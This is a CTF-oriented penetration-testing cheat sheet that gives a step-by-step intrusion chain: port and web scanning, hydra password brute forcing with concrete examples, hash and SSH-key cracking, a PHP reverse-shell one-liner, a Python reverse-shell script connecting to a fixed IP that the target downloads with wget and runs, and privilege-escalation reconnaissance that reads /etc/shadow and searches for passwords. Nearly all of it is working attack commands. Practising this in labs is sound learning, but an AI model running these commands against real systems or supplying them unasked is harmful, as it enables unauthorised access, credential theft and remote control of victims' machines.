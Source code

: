 # SCANNING
> First of all, let's scan the open ports and their versions.

```
nmap -A -p- -T4 [Target IP Address] -oN [../nmapresult.txt]
```
> How many ports open?
```
nmap -p- -vvv [Target IP Address]
```
> What vulnerabilities exist in this machine?
```
nmap -p- --script vuln [Target IP Address]
```
<br>
<br>

> If Apache2 or any web server is running;
> First, let's find the folders on the server.

```
dirb http://[Target IP Address]
```
> Or let's try alternative scanning methods.

```
gobuster dir -u http://[Target IP Address] -w [../dirbuster/wordlist.txt]
gobuster dir -u http://[Target IP Address] -w [../dirbuster/wordlist.txt] -x [.extension]
nikto -h [Target IP Address]
```
> After the scans are completed, the web server (if any) is visited and all information is collected:
<br>

# BRUTE FORCE
> Let's try to crack the usernames we found with a brute force attack.

```
hydra -l [Username We Found] -P [../wordlist.txt] [Whichever Port is Open]://[Target IP Address] -t 64
hydra -l [Username We Found] -P [../wordlist.txt] http-post-form "[HTTP Post Form]" -v
hydra -L [../Userlist.txt] -P [../wordlist.txt] [Target IP Address] [Whichever Port is Open]://[Target IP Address]
```
> For example:

```
hydra -l john -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 64
hydra -l james -P /home/kali/Downloads/givenbyctf.txt http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -v
hydra -L /home/kali/Documents/CTF's/attactive-directory/userlist.txt -P /usr/share/wordlists/fasttrack.txt 10.10.10.10 ssh://10.10.10.10
```
<br>
<br>

> If WordPress:
```
wpscan --url [Target IP Address] --passwords [../wordlist.txt] --usernames [Admin Username]
```
> If we see something encrypted:
```
john [../hash.txt] --wordlist=[../wordlist.txt]
john --format=[Format of the Hash] [../hash.txt]
```
> If something is hidden inside the image file (like steganography):
```
strings [../file.png]
stegcracker [../file.jpg] [../wordlist.txt]
steghide extract -sf [../file.jpg]
binwalk [../file.jpg]
binwalk --run-as=root [../file.jpg] -e
```
> If we haven't made much progress with the brute force attack, but we have an id_rsa:
<br>

# GAINING ACCESS TO LINUX WITH RSA PRIVATE KEY
> For SSH key to work:
```
chmod 600 [Key]
```
> Connection with SSH key:
```
ssh [Username]@[Target IP Address] -i [Key]
```
> If it asks us for a password:
```
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash --wordlist=[../wordlist.txt]
```
> And, repeat the above.
> If there is still no gaining access, we can try a pHp reverse shell on the web server.
<br>

# PHP REVERSE SHELL
> If we see something called command execution:
```
php -r '$sock=fsockopen("[Your IP Address]",[Port]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
> First, open the php document. (If you search for this php file as php-reverse-shell, you will see many examples.)
```
nano ../php-reverse-shell.php
```
> And edit the file. If you see "change $ip= " in the file, enter your own machine's IP address there. If you are connected to sites such as tryhackme via VPN, enter the IP address you are connected to.
> Let's open another terminal on us own machine and start listening to the port written in the php-reverse-shell.php file:
```
nc -nvlp [Port]
```
> Run php-reverse-shell.php on the website. For example:
```
http://[Target Website]/uploads/php-reverse-shell.php
```
> If we have gained access to the port we are listening to via Netcat, but the Linux commands we are used to are not working, let's check whether this is Python.
```
print("cozuxhub")
```
> If we have seen any text we wrote in the print command as output, it is time to open a shell:
<br>

# PYTHON SHELL
> To open terminal:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> If it doesn't work, do this first:
```
python -c 'import pty; pty.spawn("/bin/sh")'
```
> Or, create a document.py in the /var/www/html on your machine and type this:
```
        import socket
        import subprocess
        import os

        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(("10.0.2.4",5555))
        os.dup2(s.fileno(),0)
        os.dup2(s.fileno(),1)
        os.dup2(s.fileno(),2)
        p=subprocess.call(["/bin/sh","-i"])
```
> We first need to start the Apache2 server on we own machine.
```
service apache2 start
```
> Go to target machine and copy this file from we apache2 server.
```
wget http://[Your IP Address]/[document.py]
```
> Let's run this python file on our target machine.
```
python document.py
/usr/bin/python document.py
```
> If we are now a user on the target machine but do not have sufficient privileges, next is privilege escalation.
<br>

# LINUX PRIVILEGE ESCALATION
> First of all, get informaton from the machine.
```
whoami
id
uname -a
cat /proc/version
cat /etc/issue
cat /etc/shadow
cat /etc/passwd
cat /etc/sudoers
cat /etc/crontab
ps aux
ifconfig
locate password
find / -name password 2>/dev/null
find . type f -exec grep -i -I "PASSWORD" {} /dev/null \;
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> Shows the commands of the user before you:
```
history
```
> Shows what the current user can do:
```
find / -perm -u=s -type f 2>/dev/null
```
> Shows the commands:
```
ls -la /usr/bin
```
> Let's see which commands can run without root:
```
sudo -l
find / -type f -perm -04000 -ls 2>/dev/null
```
<br>
<br>

> From here, we are likely to encounter thousands of possibilities. Since each machine has a different vulnerability, we must do our own research after the basic operations.
